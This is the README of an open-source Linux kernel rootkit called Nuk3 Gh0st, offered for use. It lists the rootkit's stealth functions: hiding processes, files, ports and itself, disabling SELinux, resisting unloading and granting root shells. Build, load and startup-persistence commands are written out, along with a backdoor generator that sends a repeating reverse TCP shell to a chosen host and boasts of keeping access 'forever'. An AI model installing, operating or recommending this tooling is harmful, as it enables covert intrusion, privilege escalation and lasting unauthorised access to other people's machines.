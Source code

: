 <img src="https://github.com/JuanSchallibaum/Nuk3Gh0st/blob/master/logo.jpg" width="300" height="300" />

# Nuk3 Gh0st

Universal Linux LKM rootkit, designed to work in any kernel version and both architectures (x86 and x64).

## Why Nuk3 Gh0st?

- Is the most stable Linux LKM rootkit, working in any kernel version from 2.6.32 to 4.17.9.
- Tested on 15 different distros with different kernel versions.
- Can enable rootkit at startup, supporting sysv-init, upstart and systemd.
- Temporaly disables SELINUX if it is present, to load rootkit and enable it at startup withouth problems.
- Can hide ports TCP and UDP of IPv4 and even IPv6.
- Hides itself from be watched trough lsmod, and hides their own files during rootkit loading.
- Easy to use, easy to build and compiles cleanly withouth any warning.

## Functionality

The rootkit can do the following:

- Grant root privileges to a userland process
- Hide process by PID
- Unhide a previously hidden process by PID
- Hide files or directories by their name
- Unhide previously hidden files or directories
- Hide TCP ports (for IPv4 and IPv6)
- Unhide previously hidden TCP ports
- Hide UDP ports (for IPv4 and IPv6)
- Unhide previously hidden UDP ports
- Hide itself
- Unhide itself
- Protect against being unloaded by the user
- Disable the unload protection

## Tested On

|           Distro            |          Kernel         |    Arch    |
|-----------------------------|-------------------------|------------|
| Kali Linux (Rolling)        |  4.17.9                 |   x86_64   |
| Kali Linux (Rolling)        |  4.16.18                |   x86_64   |
| Kali Linux (Rolling)        |  4.14.0-kali3-amd64     |   x86_64   |
| Ubuntu 16.04.4 LTS          |  4.13.0-36-generic      |   x86_64   |
| Fedora 26                   |  4.11.8-300.fc26        |   x86_64   |
| Ubuntu 17.04                |  4.10.0-19-generic      |   x86_64   |
| Debian 9                    |  4.9.0-7-686            |   i686     |
| Kali Linux (Rolling)        |  4.4.142                |   x86_64   |
| Kali Linux (Rolling)        |  3.16.57                |   x86_64   |
| Linux Mint 17               |  3.13.0-37-generic      |   x86_64   |
| Wifislax                    |  3.12.36                |   i686     |
| Fedora 19                   |  3.9.5-301.fc19         |   x86_64   |
| Ubuntu 12.10                |  3.5.0-17-generic       |   i686     |
| Lihuen 5.10 (Debian based)  |  3.2.0-4-amd64          |   x86_64   |
| Ubuntu 10.04.4 LTS          |  2.6.32-38-generic-pae  |   i686     |

## Pre requirements

Install a compiler, Linux headers and all other things required for us to build the rootkit:

#### On Debian based:
```sh
apt-get update
apt-get install linux-headers-$(uname -r)
apt-get install build-essential
```

#### On Red Hat based:
```sh
yum update
yum install linux-headers-$(uname -r)
yum install build-essential
```

## Install
```sh
make
make install
```

## Use

Load rootkit:

```sh
load-nuk3gh0st
```

Use rootkit:

```sh
nuk3gh0st --help


   $$    $$            $$         $$$$$$        
   $$$   $$            $$     $$ $$    $$       
   $$$$  $$  $$    $$  $$    $$        $$       
   $$ $$ $$  $$    $$  $$   $$     $$$$$        
   $$  $$$$  $$    $$  $$$$$$         $$        
   $$   $$$  $$    $$  $$   $$   $$    $$       
   $$    $$   $$$$$$   $$    $$   $$$$$$        

    $$$$$$  $$        $$$$$$             $$     
   $$    $$ $$       $$$   $$            $$     
   $$       $$$$$$$  $$$$  $$  $$$$$$$ $$$$$$   
   $$  $$$$ $$    $$ $$ $$ $$ $$         $$     
   $$    $$ $$    $$ $$  $$$$  $$$$$$    $$     
   $$    $$ $$    $$ $$   $$$       $$   $$ $$  
    $$$$$$  $$    $$  $$$$$$  $$$$$$$    $$$$   

                   By Juan Schällibaum          

   Usage: nuk3gh0st [OPTION]...

   Options:
     --root-shell                 Grants you root shell access.
     --hide-pid=PID               Hides the specified PID.
     --unhide-pid=PID             Unhides the specified PID.
     --hide-file=FILENAME         Hides the specified FILENAME globally.
                                  Must be a filename without any path.
     --unhide-file=FILENAME       Unhides the specified FILENAME.
     --hide-tcp-port=PORT         Hides the specified tcp PORT.
     --unhide-tcp-port=PORT       Unhides the specified tcp PORT.
     --hide-tcp6-port=PORT        Hides the specified tcp6 PORT.
     --unhide-tcp6-port=PORT      Unhides the specified tcp6 PORT.
     --hide-udp-port=PORT         Hides the specified udp PORT.
     --unhide-udp-port=PORT       Unhides the specified udp PORT.
     --hide-udp6-port=PORT        Hides the specified udp6 PORT.
     --unhide-udp6-port=PORT      Unhides the specified udp6 PORT.
     --hide                       Hides the rootkit LKM.
     --unhide                     Unhides the rootkit LKM.
     --help                       Print this help message.
     --protect                    Protects the rootkit from rmmod.
     --unprotect                  Disables the rmmod protection.
```

Unload rootkit:

```sh
unload-nuk3gh0st
```

## Special functionality

Enabling rootkit at system startup:

```sh
startup-nuk3gh0st
```

Disabling rootkit at system startup:

```sh
rmstartup-nuk3gh0st
```

## Backdoor Generator

Use backdoor:
```sh
backdoor-generator --help

 \______   \_____    ____ |  | __ __| _/____   ___________     
  |    |  _/\__  \ _/ ___\|  |/ // __ |/  _ \ /  _ \_  __ \    
  |    |   \ / __ \  \___|    </ /_/ (  <_> |  <_> )  | \/    
  |______  /(____  /\___  >__|_ \____ |\____/ \____/|__|       
         \/      \/     \/     \/    \/                        
                                            __                 
    ____   ____   ____   ________________ _/  |_  ___________  
   / ___\_/ __ \ /    \_/ __ \_  __ \__  \   __\/  _ \_  __ \ 
  / /_/  >  ___/|   |  \  ___/|  | \// __ \|  | (  <_> )  | \/ 
  \___  / \___  >___|  /\___  >__|  (____  /__|  \____/|__|    
 /_____/      \/     \/     \/           \/                    
                                                               
    Generates a backdoor that sends bash reverse TCP shell	
        every S seconds to H host, listening on P port         
           and running it on startup, hidding itself           
           	   with Nuk3gh0st LKM rootkit                   
   								
   		        In other words...			
   	    YOU CAN MANTAIN ACCESS FOREVER AND EVER!   		
                                                               
                                                               
 Usage:                                                            
                                                                   
    backdoor-generator --host H --port P --sleep S                 
		Genetares a backdoor that sends bash reverse TCP shell   
		every S seconds to H host listening on P port, and       
 		running it on startup.                                   
		                                                         
    backdoor-generator --remove                                    
		Remove previously generated backdoor from startup        
		and their files.                                         
		                                                         
    backdoor-generator --help                                      
		Show this menu.                                          
```

## Uninstall
```sh
make uninstall
```

## License
This project is licensed under [GPLv2](LICENSE).
